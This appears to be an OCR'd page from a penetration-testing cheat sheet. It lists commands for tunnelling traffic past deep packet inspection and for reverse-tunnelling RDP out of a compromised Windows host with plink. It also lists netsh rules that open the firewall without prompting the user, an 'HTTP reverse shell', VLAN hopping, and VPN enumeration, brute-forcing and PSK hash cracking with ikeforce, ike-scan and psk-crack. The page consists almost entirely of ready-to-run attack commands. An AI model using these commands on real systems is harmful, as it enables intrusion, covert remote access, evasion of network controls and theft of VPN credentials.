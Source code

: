 Traffic Encapsulation - Bypassing deep packet inspection

http_tunnel
On server side:
sudo hts -F <server_ip_addr>:<port_of_your_app> 80
On client side:
sudo htc -P <my_proxy.com:proxy_port> -F <port_of_your_app> <server_ip_addr>:80
stunnel
Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network

Tunnel on port 22
plink -l root -pw pass -R 3389:$ip:3389 $ip

Port 22 blocked? Try port 80? or 443?
plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P 80

Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

Windows machine add required firewall rules without prompting the user

netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes

netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000

netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080

netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079

Start the http tunnel client
httptunnel_client.exe

Create HTTP reverse shell by connecting to localhost port 3000
plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P 3000

VLAN Hopping

git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh
VPN Hacking

Identify VPN servers:
./udp-protocol-scanner.pl -p ike $ip

Scan a range for VPN servers:
./udp-protocol-scanner.pl -p ike -f ip.txt

Use IKEForce to enumerate or dictionary attack VPN servers:
pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
Perform IKE VPN enumeration with IKEForce:
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
Bruteforce IKE VPN using IKEForce:
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
Use ike-scan to capture the PSK hash:
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
Use psk-crack to crack the PSK hash
psk-crack hash-file.txt
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
